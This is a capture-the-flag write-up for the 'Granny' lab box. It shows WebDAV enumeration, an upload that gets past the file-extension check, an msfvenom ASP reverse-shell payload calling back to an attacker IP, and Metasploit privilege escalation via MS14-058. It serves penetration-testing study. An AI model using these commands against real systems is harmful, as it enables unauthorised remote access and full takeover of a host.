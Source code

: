 ## Granny

Difficulty: Easy

### User Flag

Rustscan points to us that port 80 uses Microsoft IIS as webserver and webdav as well.

```
rustscan -a 10.10.10.15 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/7178f72f-a39c-462e-bad3-9cec2d69dfd6)

<br>

We can use davtest to validate what extensions we can upload to the website and discover that only txt and html are allowed.

```
davtest -url http://10.10.10.15
```

![davtest](https://github.com/b1d0ws/OSCP/assets/58514930/b2a291d1-0a17-4d5e-8b70-5740d40a576e)

<br>

To upload asp file, we can use cadaver and bypass the extension using ;  

Since privilege escalation requires metasploit, we're goind to use meterpreter payload, but a normal shell can also be obtained.

```
# Meterpreter Exploit
msfvenom -p windows/meterpreter/reverse_tcp -f asp lhost=10.10.14.21 lport=1337 > shell.asp

put meterpreter.txt
copy meterpreter.txt meterpreter.asp;.txt

use multi/handler with payload windows/meterpreter/reverse_tcp
```

![uploadASP](https://github.com/b1d0ws/OSCP/assets/58514930/4c145110-6740-4f1f-b925-3cf34bd5c873)

![gettingHandler](https://github.com/b1d0ws/OSCP/assets/58514930/94347ea7-832e-4332-a1c4-43510ca6ab2e)

<br>

### Root Flag

Local Exploit suggester points some vulnerabilities.

```
use post/multi/recon/local_exploit_suggester
```

![localExploitSuggester](https://github.com/b1d0ws/OSCP/assets/58514930/7e93c760-71a7-4d05-9991-2d61e2c2383b)

<br>

We have to migrate process for the exploit to work.

```
migrate 1956 (wmiprvse.ex)
msf6 exploit(windows/local/ms14_058_track_popup_menu) > run
```

![privilegeEscalation](https://github.com/b1d0ws/OSCP/assets/58514930/7d07e57d-f435-4a4f-ae0d-344f150054b3)

